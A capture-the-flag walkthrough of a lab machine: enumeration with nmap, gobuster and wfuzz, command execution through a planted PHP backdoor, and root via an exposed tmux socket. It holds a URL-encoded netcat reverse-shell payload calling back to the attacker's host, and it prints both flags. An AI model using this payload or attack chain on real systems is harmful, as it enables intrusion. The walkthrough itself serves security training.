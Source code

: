 ***Difficulty: `Hard`***  
***Remote Target: `10.0.0.22`***

# 1. Reconnaissance

    root@kali ~/D/M/Hacked# nmap -sS -A -p- -T4 10.0.0.22

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 8d:75:44:05:5f:f8:4f:ac:a1:33:fa:84:03:db:6f:94 (RSA)
    |   256 5a:b6:c6:9d:a9:15:42:74:4c:7a:f9:dd:67:ae:75:0e (ECDSA)
    |_  256 05:97:3c:74:bd:cf:8d:80:87:05:26:64:7f:d9:3d:c3 (ED25519)
    80/tcp open  http    nginx 1.14.2
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: nginx/1.14.2

Let's start by enumerating the HTTP service.

![image](https://user-images.githubusercontent.com/76552238/185964125-bc73edad-4023-4b8f-800a-5f623e2fcf82.png)

**'h4x0r'** might be a possible user on the remote machine, let's continue enumerating the web server and see what use it has to us.

    root@kali ~/D/M/Hacked# gobuster dir -u http://10.0.0.22/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x txt,html,php

    /index.html           (Status: 200) [Size: 16]
    /robots.txt           (Status: 200) [Size: 16]

Let's view the **'robots.txt'** file.

![image](https://user-images.githubusercontent.com/76552238/185970345-f882df98-e772-4f86-bc69-cb6894dc524c.png) 

### **secretnote.txt:**

    [X] Enumeration
    [X] Exploitation
    [X] Privesc
    [X] Maintaining Access.
    |__> Webshell installed.
    |__> Root shell created.

    -h4x0r

Since we didn't find anything on the first scan, let's try a different wordlist.

    root@kali ~/D/M/Hacked# gobuster dir -u http://10.0.0.22/ -w /usr/share/wordlists/SecLists/Web-Shells/backdoor_list.txt -x txt,html,php

    /simple-backdoor.php  (Status: 302) [Size: 62] [--> /]
    /simple-backdoor.php  (Status: 302) [Size: 62] [--> /]
    /index.html           (Status: 200) [Size: 16]        
    /index.html           (Status: 200) [Size: 16] 

Going to **http://10.0.0.22/simple-backdoor.php** we are redirected to the root directory of the web server. Let's use **'Burp Suite'** to see what the is going on. 

![image](https://user-images.githubusercontent.com/76552238/185980175-a3fb21de-c094-4214-8924-2380f3a5cfea.png)

Let's use **'wfuzz'** to find the parameter.

    root@kali ~/D/M/Hacked# wfuzz -c -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://10.0.0.22/simple-backdoor.php?FUZZ=cat --help' --hh 62

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                   
    =====================================================================

    000000190:   302        1 L      18 W       121 Ch      "secret"   

# 2. Exploitation

The web server is vulnerable to RCE, let's run on the remote machine and get a reverse shell on our local machine.

Using **Burp Suite** we can encode our payload as a URL send it to to the remote machine.

![image](https://user-images.githubusercontent.com/76552238/185985812-446c2ef5-7fff-429b-bcd7-ec813b6cd28d.png)

    Remote Machine:

    root@kali ~/D/M/Hacked# curl 'http://10.0.0.22/simple-backdoor.php?secret=%6e%63%20%31%30%2e%30%2e%30%2e%32%37%20%34%34%34%34%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68'

    Local Machine: 

    root@kali ~/D/M/Hacked# nc -lnvp 4444
    listening on [any] 4444 ...
    connect to [10.0.0.27] from (UNKNOWN) [10.0.0.22] 35294
    id -a
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

# 3. Privilege Escalation

    www-data@hacked:/home$ pwd
    /home
    www-data@hacked:/home$ ls -l
    total 4
    drwxr-xr-x 2 h4x0r h4x0r 4096 Nov 15  2020 h4x0r

The user **'h4x0r'** is on the remote machine.

Running **[LinPeas][1]** on the remote machine something interesting popped up.

![image](https://user-images.githubusercontent.com/76552238/185992341-598ef04b-c6f3-43f0-ac18-89c2f0cc3ca6.png)

Viewing the file /tmp/.hacked it is socket.

    www-data@hacked:/tmp$ file .hacked
    file .hacked
    .hacked: socket

Tmux

    www-data@hacked:/$  export TERM=xterm
    www-data@hacked:/$  tmux -S /tmp/.hacked

    # id -a
    uid=0(root) gid=0(root) groups=0(root)

    # cat user.txt
    HMVimthabesthacker

    # cat /root/root.txt
    HMVhackingthehacker

[1]: "https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS"